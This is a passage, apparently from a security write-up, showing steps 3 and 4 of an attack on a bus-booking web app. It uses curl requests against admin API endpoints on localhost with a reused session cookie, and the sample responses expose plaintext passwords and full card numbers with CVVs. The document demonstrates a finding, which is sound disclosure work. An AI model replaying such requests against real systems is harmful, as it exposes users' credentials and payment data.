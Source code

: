 #### Step 3: Extract Sensitive Data via Admin APIs
```bash
# Get all users including admin accounts
curl -X GET http://localhost:3000/api/admin/users \
  -b cookies.txt

# Actual Response (VULNERABILITY!)
[
  {
    "id": 1,
    "username": "admin",
    "email": "admin@busbook.com", 
    "password": "admin123",
    "fullname": "System Administrator",
    "phone": "+1-555-0001",
    "role": "admin",
    "createdAt": "2024-08-27T12:00:00.000Z"
  },
  {
    "id": 2,
    "username": "user",
    "email": "user@gmail.com",
    "password": "password", 
    "fullname": "John Smith",
    "phone": "+1-555-0002",
    "role": "user",
    "createdAt": "2024-08-27T12:00:00.000Z"
  }
]
```

#### Step 4: Access Customer Payment Data (CATASTROPHIC!)
```bash
# Get all bookings with credit card information
curl -X GET http://localhost:3000/api/admin/bookings \
  -b cookies.txt

# Actual Response - Full PCI Data Breach!
[
  {
    "id": 1,
    "userName": "John Smith",
    "fromCity": "New York",
    "toCity": "Boston", 
    "departureDate": "2024-09-15",
    "passengers": 2,
    "totalPrice": "179.98",
    "cardNumber": "4532-1234-5678-9012",
    "cardExpiry": "12/26",
    "cardCvv": "123",
    "status": "confirmed"
  },
  {
    "id": 2,
    "userName": "Sarah Johnson", 
    "fromCity": "Boston",
    "toCity": "New York",
    "departureDate": "2024-09-20",
    "passengers": 1,
    "totalPrice": "89.99",
    "cardNumber": "5678-9012-3456-7890", 
    "cardExpiry": "08/27",
    "cardCvv": "456",
    "status": "confirmed"
```